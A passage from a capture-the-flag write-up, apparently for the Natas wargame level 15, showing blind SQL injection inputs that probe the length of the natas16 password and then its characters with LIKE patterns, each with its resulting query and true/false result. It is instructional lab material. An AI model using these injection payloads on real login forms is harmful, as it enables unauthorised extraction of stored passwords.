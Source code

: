 ```text
input  : natas16" AND (SELECT LENGTH(username) FROM users WHERE username="natas16" LIMIT 1)=7#  
Query  : SELECT * from users where username="natas16" AND (SELECT LENGTH(username) FROM users WHERE username="natas16" LIMIT 1)=7#  
Result : true
```

So now lets test the password lenght.

```text
input  : natas16" AND (SELECT LENGTH(password) FROM users WHERE username="natas16" LIMIT 1)=1#  
Query  : SELECT * from users where username="natas16" AND (SELECT LENGTH(password) FROM users WHERE username="natas16" LIMIT 1)=1#  
Result : false
```

so far all the passwords had a lenght of 32, so lets that that.

```text
input  : natas16" AND (SELECT LENGTH(password) FROM users WHERE username="natas16" LIMIT 1)=32#  
Query  : SELECT * from users where username="natas16" AND (SELECT LENGTH(password) FROM users WHERE username="natas16" LIMIT 1)=32#  
Result : true
```

now lets test the actual password  
first verify with the username

```text
Input  : natas16" AND (SELECT username FROM users WHERE username="natas16" LIMIT 1) LIKE "a%"#  
Query  : SELECT * from users where username="natas16" AND (SELECT username FROM users WHERE username="natas16" LIMIT 1) LIKE "a%"#  
Result : false
```

```text
Input  : natas16" AND (SELECT username FROM users WHERE username="natas16" LIMIT 1) LIKE "n%"#  
Query  : SELECT * from users where username="natas16" AND (SELECT username FROM users WHERE username="natas16" LIMIT 1) LIKE "n%"#  
Result : true
```

So we know this works. Now lets try the password.

```text
Input  : natas16" AND (SELECT password FROM users WHERE username="natas16" LIMIT 1) LIKE "W%"#  
Query  : SELECT * from users where username="natas16" AND (SELECT password FROM users WHERE username="natas16" LIMIT 1) LIKE "W%"#
Result : true
```

but if we try

```text
Input  : natas16" AND (SELECT password FROM users WHERE username="natas16" LIMIT 1) LIKE "w%"#  
Query  : SELECT * from users where username="natas16" AND (SELECT password FROM users WHERE username="natas16" LIMIT 1) LIKE "w%"#
Result : true
```

